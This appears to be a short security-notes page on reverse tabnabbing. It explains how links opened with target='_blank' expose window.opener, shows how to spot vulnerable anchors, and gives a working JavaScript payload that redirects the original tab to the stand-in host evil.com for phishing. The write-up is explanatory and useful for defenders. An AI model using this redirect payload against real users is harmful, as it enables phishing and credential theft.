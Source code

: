 # Tabnabbing

## Introduction
When you open a link in a new tab ( target="_blank" ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property.

## How to find
```html
<a href="..." target="_blank" rel="" />  

<a href="..." target="_blank" />
```

## How to Exploit
1. Attacker posts a link to a website under his control that contains the following JS code:
    ```html
    <html>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://evil.com');
    if (window.parent != window) window.parent.location.replace('http://evil.com');
    </script>
    </html>
    ```
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.

## References
* [Hackerone #260278](https://hackerone.com/reports/260278)
